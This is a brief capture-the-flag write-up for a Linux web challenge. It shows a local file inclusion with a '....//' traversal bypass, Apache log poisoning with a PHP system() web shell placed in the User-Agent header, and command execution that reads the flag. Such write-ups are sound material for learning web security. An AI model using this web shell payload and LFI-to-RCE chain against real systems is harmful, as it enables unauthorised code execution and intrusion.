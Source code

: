 # Solution

Read the apache2 logs using lfi /var/log/apache2/access.log .
http://01.linux.challenges.ctf.thefewchosen.com:60886/var/log/apache2/access.log

Then return to the main page and capture the request with burp. 
Then put <?php system(\$_GET['cmd']);?> in the User-Agent  param.

Read the logs again and you'll see the contents of the root dir if we reqquest:
http://01.linux.challenges.ctf.thefewchosen.com:60886/?file=....//....//....//....//....//....//var/log/apache2/access.log&cmd=ls%20/

Do the exact same thing again but replace the ls / with cat hidden_fl4g.txt . Read the logs again and you'll see the flag in the log file.
curl http://01.linux.challenges.ctf.thefewchosen.com:60886/?file=....//....//....//....//....//....//var/log/apache2/access.log&cmd=cat%20/hidden_fl4g.txt
